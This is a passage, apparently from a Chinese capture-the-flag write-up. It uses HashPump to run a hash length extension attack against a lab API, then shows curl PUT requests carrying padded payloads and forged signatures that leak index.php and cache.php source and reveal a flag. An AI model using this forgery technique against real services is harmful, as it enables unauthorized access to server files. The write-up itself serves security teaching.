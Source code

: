 现在开始利用这个漏洞，首先下载并且编译工具 HashPump (https://github.com/bwall/HashPump)，然后利用它来生成我们需要的 hash。因为我们不知道 secret 的长度，所以需要穷举 key 的长度(hashpump 的 k 参数)

```
#> ./hashpump s 6854c04381284dac9970625820a8d32b data
contenttypetext/plainfilepath./documents/restapiv2.txtid3 a
contenttypetext/plainfilepath./index.phpid3 k 16
4625e458d07cb19da70effa3d1c6dc14
contenttypetext/plainfilepath./documents/restapiv2.txtid3\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00X\x02\x00\x00\x00\x00\x00\x00contenttypetext/plainfilepath./index.phpid3 
```

我们把每次尝试 k 值生成的 hash 和字符串用 curl 提交到服务器，直到服务器提示成功为止，经过多次测试，我们发现 k 值是 16.

```
#> curl -X PUT -d
'c=ontenttypetext/plainfilepath./documents/restapiv2.txtid3%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00X%02%00%00%00%00%00%00&contenttype=text/plain&filepath=./index.php&api_sig=4625e458d07cb19da70effa3d1c6dc14'  H 'XAuth:b32GjABvSf1Eiqry' http://172.16.1.80/api/documents/id/3 
```

接下来我们就成功获取了 index.php 的源码(成功的把 index.php 的源码作为 document id 3 保存):

```
#> curl http://172.16.1.80/api/documents/id/3
<?php
// Not in production... see /cache.php?access=<secret>
include('../lib/caching.php');
if (isset($_GET['debug'])) {
readFromCache();
}
**** SNIP **** 
```

似乎这个 cache.php 有点意思，我们改改上面的 hash 长度攻击利用代码，把 index.php 换成 cache.php,这次我们成功的拿到了 flag。

```
#> curl http://172.16.1.80/api/documents/id/3
**** SNIP ****
$flag = 'OrganicPamperSenator877';
if ($_GET['access'] != md5($flag)) {
header('Location: /index.php');
die();
}
**** SNIP **** 
```

## 0x05 第五题:注入空间 Injeption（尼玛真难翻译）

* * *

说明:

Web 篇最后的 flag 藏在 /flag.txt 里，你能拿到么?
